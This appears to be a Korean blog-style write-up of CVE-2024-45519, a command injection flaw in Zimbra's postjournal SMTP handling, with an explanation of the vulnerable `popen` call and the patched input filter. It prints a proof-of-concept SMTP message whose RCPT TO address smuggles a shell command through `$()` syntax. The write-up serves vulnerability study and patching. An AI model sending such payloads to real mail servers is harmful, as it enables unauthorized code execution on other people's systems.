

## Title

CVE-2024-45519: Zimbra의 Command Injection 취약점

## URL

[https://blog.projectdiscovery.io/zimbra-remote-code-execution/](https://blog.projectdiscovery.io/zimbra-remote-code-execution/)

## Target

- **Joule**: version 8.8.15
- **Kepler**: version 9.0.0
- **Daffodil < v10.1.1**

## Explain

이메일 및 협업 플랫폼인 Zimbra에는 SMTP를 통한 이메일 전송을 핸들링하는 postjournal service가 존재하는데 여기서 입력값을 검증하지 않아 command injection 취약점이 발생했습니다.

취약점이 발생한 함수는 SMTP 메시지를 핸들링하는 `read_maps` 함수로 `popen` 함수를 호출할 때 사용자의 입력값이 그대로 사용되면서 command injection이 가능했습니다.



`read_maps` 는 위처럼 사용자의 입력을 파싱하고 이를 명령줄 인자로 사용하는 프로세스를 `popen`호출(56번 라인)로 생성합니다.

```
EHLO localhost
MAIL FROM: <aaaa@mail.domain.com>
RCPT TO: <"aabbb$(curl${IFS}/tmp/pwn)"@mail.domain.com>
DATA
Test message
.

```

이때 입력값에 대한 검증이 존재하지 않기 때문에 위와 같은 SMTP 메시지를 전송해서 임의의 command를 삽입하는 것이 가능하고 그 결과 아래와 같이 `popen` 의 인자로 `RCPT TO` 에 삽입된 command가 사용되는 것을 볼 수 있습니다.


위 스크린샷에서 확인할 수 있는 것처럼 `RCPT TO`의 데이터가 `popen`의 인자에 포함되어 있고  `\"`로 감싸져 있기 때문에 삽입된 command를 실행하기 위해 `$()`가 사용되었습니다.

해당 취약점의 패치는 아래의 `is_safe_input` 함수를 호출해서 사용자의 입력을 검사하고 이후 `execvp`를 호출해서 프로세스를 생성하는 방식으로 이루어졌습니다.

```c
int is_safe_input(char *input) {
    if (input == NULL || *input == '\0') {
        return 0;
    }
    for (char *c = input; *c != '\0'; c++) {
        if (*c == ';' || *c == '&' || *c == '|' || *c == '`' || *c == '$' ||
            *c == '(' || *c == ')' || *c == '<' || *c == '>' || *c == '\\' ||
            *c == '\'' || *c == '\"' || *c == '\n' || *c == '\r') {
            return 0;
        }
    }
    return 1;
}
```